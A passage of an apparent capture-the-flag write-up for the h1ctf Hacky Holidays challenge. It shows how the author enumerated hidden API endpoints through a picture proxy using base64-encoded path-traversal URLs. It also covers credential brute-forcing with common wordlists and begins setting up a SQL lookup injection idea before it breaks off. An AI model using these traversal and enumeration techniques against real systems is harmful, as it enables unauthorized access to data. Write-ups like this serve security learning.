 The wordlist user in this is [objects-lowercase.txt](https://github.com/chrislockard/api_wordlist/blob/master/objects-lowercase.txt)

{F1129471}

```
('password', '--', u'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/cGFzc3dvcmQiLCJhdXRoIjoiZWIxMzUyMDExN2ZmMjVmNjk1ZDk5NWFmMjAxMmNmYTMifQ==')
('username', '--', u'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWUiLCJhdXRoIjoiODE5NmRkMzE3NWRiODMxOWYzODgwOTUyNmMyMjgyMTgifQ==')
('', '--', u'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/IiwiYXV0aCI6ImMwMmI3Y2MwN2QwYTg4ZjE4NWVhNDU4N2JjMjFkM2I5In0=')
```

If we visit the URL we'll see 

{F1129470}

Now this could mean that I found the endpoint but as we know API's need parameters on the endpoints to be able to return some kind of data. So I edited the script a bit, because this time I wasn't getting `404` but `400`

so I changed the last if condition to:

```python
        if nr.content != "Expected HTTP status 200, Received: 400":
            print(endpoint, "--", new_url)
```

This gave me:

{F1129469}

```
('user\n', '--', u'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ==')
```

The `password` and `username` gave me status code `204` not on the request but as the content. And if we checkout the `/api` table it says that `204` means `Successful request but with no data found` that means we just need to find the valid `username` and `password` to get the information/data.

For this I downloaded users.txt and rockyou.txt from SecList and tried to find the valid values one at a time. After hours of long run when I didn't find anything `@xEHLE` told me that I will never find those credential in any list and I need to find some other way. They also said `also think about how a lot of username lookups work`.

Now the way most looks usually works in DB are something like:

```sql
SELECT user FROM TABLE_NAME WHERE user="THE INPUT WE GIVE"
```

something like that but the problem is if that was the case then I think using wordlist would have worked. That is why the best way lookups would work in this case is if someone internally is using something like:
